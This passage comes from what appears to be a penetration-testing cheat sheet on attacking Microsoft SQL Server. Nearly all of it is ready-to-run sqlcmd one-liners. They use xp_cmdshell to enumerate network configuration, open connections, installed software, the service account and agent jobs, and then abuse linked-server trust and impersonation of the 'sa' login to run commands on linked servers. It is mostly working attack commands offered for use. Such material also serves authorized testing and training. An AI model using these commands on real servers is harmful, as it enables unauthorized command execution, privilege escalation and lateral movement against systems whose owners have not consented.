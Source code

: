 #### 9.3 Enumerate Network Configuration
- **SQLCMD (Linux)**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "EXEC xp_cmdshell 'ipconfig /all';"
  ```
  Enumerate detailed network configuration, including IP addresses and DNS settings.

#### 9.4 Enumerate Open Network Connections
- **SQLCMD (Linux)**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "EXEC xp_cmdshell 'netstat -an';"
  ```
  List all active network connections to understand the communication landscape of the server.

#### 9.5 Identify Installed Software
- **SQLCMD (Linux)**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "EXEC xp_cmdshell 'wmic product get name, version';"
  ```
  Enumerate all installed software, which may reveal vulnerable or misconfigured applications.

#### 9.6 Extract MSSQL Service Account Information
- **SQLCMD (Linux)**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "SELECT service_account FROM sys.dm_server_services;"
  ```
  Identify the service account under which SQL Server is running, which can be useful for privilege escalation.

#### 9.7 Enumerate SQL Server Agent Jobs
- **SQLCMD (Linux)**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "SELECT name, enabled, description FROM msdb.dbo.sysjobs;"
  ```
  List all SQL Server Agent jobs, including their descriptions and whether they are enabled.

## 10. Exploiting Linked Servers

#### 10.1 Exploit Linked Server Trust
- **SQLCMD (Linux)**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "EXEC ('xp_cmdshell ''whoami''') AT [linked_server];"
  ```
  Exploit linked server trust by executing commands on the linked server.

#### 10.2 Impersonate a User on Linked Server
- **SQLCMD (Linux)**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "EXECUTE AS LOGIN = 'sa'; EXEC ('xp_cmdshell ''whoami''') AT [linked_server];"
  ```
  Impersonate a high-privilege user on the linked server and execute commands.
